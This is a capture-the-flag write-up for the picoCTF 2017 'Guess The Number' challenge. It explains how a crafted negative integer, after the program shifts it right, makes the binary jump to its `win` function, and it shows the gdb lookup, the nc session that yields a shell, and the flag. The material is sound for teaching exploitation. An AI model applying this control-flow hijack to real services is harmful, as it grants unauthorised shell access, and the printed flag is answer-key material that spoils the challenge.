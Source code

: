 # Guess The Number
## level 2 - binary exploitation - 75 points

### Description
> Just a simple number-guessing game. How hard could it be? [Binary](./data/guess_num) [Source](./data/guess_num.c). Connect on shell2017.picoctf.com:30919.

### Hints
> * What is the program doing with your input number?
> * strtol checks for overflow but it does allow negative numbers...

### Solution

The code is slightly different from previous challenges: in this one instead of providing shellcode to execute we have to submit the address of the pointer of `win` function to get the shell.

First of all, let's find `win` function address with `gdb`:

```
$ gdb guess_num
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.3) 7.7.1
...
Reading symbols from guess_num...(no debugging symbols found)...done.
(gdb) print win
$1 = {<text variable, no debug info>} 0x804852b <win>
```

So the address is `0x804852b`. Before execute the instruction at pointer we gave it shifts right by 4 bits, so before submitting we have to shift left by 4. The result decimal number is 2,152,223,408.

Sadly t,he number we found overflows 32-bit `long` type, so `strtol` cuts it to 2,147,483,647 (2^31 - 1). So what can we do?

The binary representation of the "address number" is `10000000010010000101001010110000`. We know that the most significant bit is used for sign control, so we can convert the number in decimal removing last bit, then add to the minimum 32-bit `long` plus one (the overflow) to get the number to submit. The "address number" without sign bit in decimal is 4,739,760, then the number to submit will be -2,142,743,888:

```
$ nc shell2017.picoctf.com 30919
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743888
You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ cat flag.txt
d1ec8d4078eac1112548c1a6a00cfe07
```

### Flag
```
d1ec8d4078eac1112548c1a6a00cfe07
```